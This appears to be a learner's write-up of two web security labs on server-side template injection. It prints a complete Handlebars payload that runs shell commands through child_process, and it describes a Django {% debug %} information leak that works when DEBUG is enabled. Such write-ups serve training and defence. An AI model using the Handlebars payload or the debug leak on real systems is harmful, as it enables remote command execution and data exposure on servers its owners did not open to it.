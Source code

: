 
---------------------------------------------------------------------
-----------------------------------------------------------------------

## Lab4: SSTI in an unknown language with a documented exploit

At the first when it tried this payload `{{7 * 7}}`, I got this error: 

![[handlebars.png]]

- i did some searches then i knew it is a Handlebars template and we can execute some commands through this code:

>{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
      {{this.push "return require('child_process').execSync('`inject your command here`');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}

-----------------------------------------------------------------------
-----------------------------------------------------------------------

## Lab5: SSTI with information disclosure via user-supplied objects
- Ok as usual we caused an error message and we have known this template is working with `django` web framework.

![[django.png]]
- it is wrong to enable `DEBUG` during developing your project because it causes the leak of some data and the objects in your project.
- Check out them:
	- https://docs.djangoproject.com/en/4.0/howto/deployment/checklist/#debug
	- https://docs.djangoproject.com/en/4.0/ref/settings/#debug

- So if we run this payload `{% debug %}` in the template, The Django will display a detailed traceback, including a lot of metadata about the environment.
